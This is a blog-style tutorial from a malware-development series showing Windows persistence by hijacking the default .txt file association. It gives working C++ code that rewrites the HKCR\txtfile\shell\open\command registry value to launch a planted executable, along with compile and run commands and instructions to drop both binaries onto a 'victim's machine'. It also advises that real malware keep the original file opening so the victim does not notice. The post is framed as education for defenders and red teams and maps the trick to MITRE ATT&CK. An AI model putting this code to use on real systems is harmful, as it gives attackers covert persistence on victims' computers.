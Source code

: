 ```yaml
---
title:  "Malware development: persistence - part 9. Default file extension hijacking. Simple C++ example."
date:   2022-08-26 05:00:00 +0300
header:
  teaser: "/assets/images/66/2022-08-29_02-25.png"
categories:
  - malware
tags:
  - malware
  - windows
  - persistence
  - red team
  - win32api
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!

![pers](/assets/images/66/2022-08-29_02-25.png){:class="img-responsive"}    

This article is the result of my own research into one of the interesting malware persistence trick: hijacking default file extension.    

### default file association     

For example, when a `.txt` file is double-clicked, `notepad.exe` is used to open it.     

![pers](/assets/images/66/2022-08-29_02-17.png){:class="img-responsive"}    

Windows knows that it must use `notepad.exe` to access `.txt` files because the `.txt` extension (and many others) are mapped to applications that can open such files in the registry: `HKEY_CLASSES_ROOT`.

It is possible to hijacking a default file association to execute a malicious program.     

### practical example    

Let's go to hijack `.txt`. In this case, the `.txt` extension handler is specified in the registry key listed below:     

`HKEY_CLASSES_ROOT\txtfile\shell\open\command`    

Run command:    

```powershell
reg query "HKCR\txtfile\shell\open\command" /s
```

![pers](/assets/images/66/2022-08-29_02-19.png){:class="img-responsive"}    

Then, create our "malicious" application:     

```cpp
/*
hack.cpp
evil app for windows persistence via
hijacking default file extension
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/08/26/malware-pers-9.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

As you can see, the logic is pretty simple as usually: just pop-up `meow-meow` messagebox.    

At the next step, hijack the `.txt` file extension by modifying the value data of `\HKEY_CLASSES_ROOT\txtfile\shell\open\command` by this script:     

```cpp
/*
pers.cpp
windows persistence via
hijacking default file extension
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/08/26/malware-pers-9.html
*/
#include <windows.h>
#include <string.h>
#include <stdlib.h>
#include <stdio.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // command for replace
  // "%SystemRoot%\\system32\\NOTEPAD.EXE %1"
  // malicious app
  const char* cmd = "Z:\\2022-08-26-malware-pers-9\\hack.exe";

  // hijacking logic
  LONG res = RegOpenKeyEx(HKEY_CLASSES_ROOT, (LPCSTR)"\\txtfile\\shell\\open\\command", 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // update key
    RegSetValueEx(hkey, (LPCSTR)"", 0, REG_SZ, (unsigned char*)cmd, strlen(cmd));
    RegCloseKey(hkey);
  }
  return 0;
}
```

As you can see, in this source code we just replace `%SystemRoot%\system32\NOTEPAD.EXE %1` with `Z:\2022-08-26-malware-pers-9\hack.exe`.

### demo

Let's go to see everything in action. Compile our malware:    

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![pers](/assets/images/66/2022-08-29_04-21.png){:class="img-responsive"}    

The generated `hack.exe` needs to be dropped into the victim’s machine.    

Then, compile the program responsible for persistence:     

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![pers](/assets/images/66/2022-08-29_04-22.png){:class="img-responsive"}    

The generated `pers.exe` also needs to be dropped into the victim’s machine.     

Then just run:    

```powershell
.\pers.exe
```

![pers](/assets/images/66/2022-08-29_02-21.png){:class="img-responsive"}    

So, try to open `.txt` file, for example double-click `test.txt`:     

![pers](/assets/images/66/2022-08-29_02-22.png){:class="img-responsive"}    

![pers](/assets/images/66/2022-08-29_02-24.png){:class="img-responsive"}    

As you can see, the "malware" will be executed. Perfect! :)    

Then, cleanup:    

```powershell
reg add "HKEY_CLASSES_ROOT\txtfile\shell\open\command" /ve /t REG_SZ /d "%SystemRoot%\system32\NOTEPAD.EXE %1"
```

![pers](/assets/images/66/2022-08-29_02-34.png){:class="img-responsive"}    

It would be good practice to do this (in real malware) with little bit different logic so that the victim user will still be able to open the original `.txt` file, but he will additionally run the malicious activity.     

This persistence trick is used by [SILENTTRINITY](https://attack.mitre.org/software/S0692/) framework and [Kimsuky](https://attack.mitre.org/groups/G0094/) cyber espionage group. This malware was used in a 2019 campaign against Croatian government agencies by unidentified cyber actors.       

I hope this post spreads awareness to the blue teamers of this interesting technique, and adds a weapon to the red teamers arsenal.    

[MITRE ATT&CK: Change Default File Association](https://attack.mitre.org/techniques/T1546/001/)     
[SILENTTRINITY](https://attack.mitre.org/software/S0692/)     
[Kimsuky](https://attack.mitre.org/groups/G0094/)      
[source code on Github](https://github.com/cocomelonc/meow/tree/master/2022-08-26-malware-pers-9)       

> This is a practical case for educational purposes only.      

Thanks for your time happy hacking and good bye!   
*PS. All drawings and screenshots are mine*
